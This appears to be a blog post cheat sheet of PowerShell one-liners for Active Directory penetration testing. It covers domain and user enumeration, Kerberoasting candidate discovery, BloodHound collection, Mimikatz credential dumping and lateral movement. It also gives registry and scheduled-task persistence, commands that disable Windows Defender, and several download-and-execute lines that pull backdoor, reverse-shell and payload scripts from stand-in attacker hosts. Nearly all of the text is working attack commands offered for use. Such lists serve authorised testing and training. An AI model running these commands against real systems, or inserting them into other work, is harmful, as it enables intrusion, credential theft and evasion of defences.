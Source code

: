 ```yaml
---
title: "Power-S-Hell"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [powershell, power, hell, history, file, active-directory, windows, recon, ad, lateral-movement, persistence, evasion]
order: 4
image: /assets/images/Cyber-Security/Power-S-Hell.png
---
```


This is a collection of PowerShell one-liners for **Active Directory (AD) pentesting**, including recon, enumeration, lateral movement, persistence, evasion, and payload delivery.

## PowerShell History File

```
C:\Users\user01\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Stored command history — often contains creds, recon, or tooling clues.

## Whoami & Token Info

```powershell
whoami /all
whoami /priv
Get-ProcessTokenPrivilege
```

View current user identity, privileges, and token info.

## Domain Info

```powershell
(Get-WmiObject Win32_ComputerSystem).Domain
(Get-ADDomain).Forest
(Get-ADDomainController -Discover).Name
```

Get basic domain and forest information.

## User Enumeration

```powershell
Get-ADUser -Filter * -Properties DisplayName,Description | select Name,DisplayName,Description
net user /domain
```

Enumerate domain users with additional context.

## Computer Enumeration

```powershell
Get-ADComputer -Filter * | Select-Object Name,OperatingSystem,LastLogonDate
```

List domain-joined systems with OS and last login info.

## Group Memberships

```powershell
net group "Domain Admins" /domain
Get-ADGroupMember "Domain Admins"
```

Check domain admin members.

## Password Policy & Trusts

```powershell
(Get-ADDefaultDomainPasswordPolicy)
Get-ADTrust -Filter *
```

Inspect domain password requirements and trust relationships.

## Current Session Info

```powershell
qwinsta
query user
```

See who’s currently logged in.

## Network Shares Discovery

```powershell
net view /domain
net view \\targethost
Invoke-ShareFinder -Verbose
```

Enumerate visible network shares.

## Share Access Test

```powershell
Invoke-CheckLocalAdminAccess -ComputerName targethost
Invoke-SmbEnum -ComputerName targethost
```

Check access rights and share contents remotely.

## Kerberoasting Candidates

```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -ne $null } | Select SamAccountName, ServicePrincipalName
```

Find SPN-enabled accounts for ticket extraction.

## Mailbox Discovery

```powershell
Get-ADUser -Filter * -Properties mail | Where-Object {$_.mail -ne $null} | Select Name, mail
```

List domain users with email addresses.

## BloodHound Ingestors (SharpHound)

```powershell
Invoke-WebRequest -Uri http://<attacker>/SharpHound.exe -OutFile SharpHound.exe
.\SharpHound.exe -c All
```

Collect AD data for analysis in BloodHound.

## Dump Hashes (if Admin)

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

Dump logon credentials from memory.

## DNS + Reverse Lookup

```powershell
Resolve-DnsName target.domain.local
[System.Net.Dns]::GetHostEntry("192.168.1.100")
```

Identify IPs and names within the domain.

## Remote Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
```

Load and run remote scripts in memory.

## Lateral Movement

```powershell
Invoke-WMICommand -ComputerName target -Command "whoami"
Invoke-Command -ComputerName target -ScriptBlock { hostname }
Enter-PSSession -ComputerName target
Invoke-SMBExec -Target target -Command "ipconfig /all"
```

Remotely execute commands or enter sessions.

## Persistence

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "powershell.exe -WindowStyle Hidden -Command 'IEX (New-Object Net.WebClient).DownloadString(`'http://attacker/payload.ps1`')'"
```

Add script to startup via registry key.

```powershell
schtasks /create /tn "Updater" /tr "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File update.ps1" /sc minute /mo 5 /ru SYSTEM
```

Create recurring scheduled task for persistence.

## Defender Evasion

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Add-MpPreference -ExclusionPath "C:\Users\Public"
powershell -exec bypass -w hidden -EncodedCommand <base64payload>
```

Disable Defender and hide payload execution.

## Custom Payload Execution

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/backdoor.ps1')
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/rev.ps1')"
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')
```

Alternate ways to launch remote payloads.